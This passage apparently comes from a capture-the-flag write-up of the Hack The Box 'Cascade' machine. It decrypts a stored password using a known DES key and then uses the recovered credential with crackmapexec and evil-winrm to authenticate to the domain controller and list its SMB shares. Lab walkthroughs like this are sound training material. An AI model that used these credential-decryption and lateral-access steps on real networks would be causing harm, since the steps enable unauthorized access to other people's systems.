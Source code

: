 
https://github.com/frizb/PasswordDecrypts

$ echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
00000000  73 54 33 33 33 76 65 32                           |sT333ve2|
00000008

$ crackmapexec smb 10.129.155.114 -d cascade.local -u s.smith -p sT333ve2
SMB         10.129.155.114  445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.129.155.114  445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2 


![image-center](/images/htb/htb_cascade_bloodhound_ssmith.png){: .align-center}


evil-winrm -i 10.129.155.114 -u s.smith -p sT333ve2 


$ crackmapexec smb 10.129.155.114 -d cascade.local -u s.smith -p sT333ve2 --shares  
SMB         10.129.155.114  445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.129.155.114  445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2 
SMB         10.129.155.114  445    CASC-DC1         [+] Enumerated shares
SMB         10.129.155.114  445    CASC-DC1         Share           Permissions     Remark
SMB         10.129.155.114  445    CASC-DC1         -----           -----------     ------
SMB         10.129.155.114  445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.129.155.114  445    CASC-DC1         Audit$          READ            
SMB         10.129.155.114  445    CASC-DC1         C$                              Default share
SMB         10.129.155.114  445    CASC-DC1         Data            READ            
SMB         10.129.155.114  445    CASC-DC1         IPC$                            Remote IPC
SMB         10.129.155.114  445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.129.155.114  445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.129.155.114  445    CASC-DC1         SYSVOL          READ            Logon server share 
